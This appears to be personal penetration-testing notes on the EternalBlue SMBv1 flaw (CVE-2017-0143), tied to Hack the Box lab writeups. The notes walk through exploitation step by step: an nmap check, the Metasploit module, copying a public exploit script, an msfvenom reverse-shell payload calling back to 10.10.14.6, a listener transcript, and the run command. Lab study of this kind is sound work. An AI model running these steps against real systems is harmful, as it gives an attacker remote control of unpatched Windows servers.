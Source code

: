 # CVE-2017-0143

CVE Details:
- [https://www.rapid7.com/db/vulnerabilities/msft-cve-2017-0143/](https://www.rapid7.com/db/vulnerabilities/msft-cve-2017-0143/)
- [https://www.cvedetails.com/cve/CVE-2017-0143/](https://www.cvedetails.com/cve/CVE-2017-0143/)

## Affected Technologies

SMBv1 Servers on several operating systems:
- Windows Vista SP2
- Windows Server 2008 SP2, R2 SP1
- Windows 7 SP1
- Windows 8.1
- Windows Server 2012 Gold, R2
- Windows RT 8.1
- Windows 10 Gold, 1511, 1607
- Windows Server 2016

## What Does it Do?

Allows remote code execution on a vulnerable server.

## Check if a System is Vulnerable

If port 445 is running:

```bash
$ nmap --script vuln [IP] -p 445
```

## Exploits

**Metasploit Module**

```
exploit/windows/smb/ms17_010_eternalblue
```

**Alternative Implementations**

Copy exploit code:

```bash
$ searchsploit -m windows/remote/42315.py
```

Configure options as per [this excellent tutorial](https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/). You may have to use `smb_send_file()` to deliver your payload rather than the `bitsadmin` method.

Generate a shell payload using `msfvenom`:

```bash
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.6 lport=9001 -f exe -o sc.exe
```

Start a handler using `msfconsole`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 9001
lport => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.6:9001 
```

Run exploit:

```bash
$ python2 exploit.py [IP]
```

**Practical Examples**

- Windows 7: [[Writeups/Hack the Box/Boxes/Blue/10 - Eternal Blue#Working Exploit - 42315|Blue - Eternal Blue > Working Exploit - 42315]]
- Windows XP: [[Writeups/Hack the Box/Boxes/Legacy/10 - Eternal Blue|Legacy - Eternal Blue]]

## Mitigations

Patch!

## In Popular Culture

- [https://www.wired.co.uk/article/what-is-eternal-blue-exploit-vulnerability-patch](https://www.wired.co.uk/article/what-is-eternal-blue-exploit-vulnerability-patch)
- [https://www.computerweekly.com/news/252440964/WannaCrys-EternalBlue-exploit-still-a-threat](https://www.computerweekly.com/news/252440964/WannaCrys-EternalBlue-exploit-still-a-threat)

# Tags

#cve #windows #smb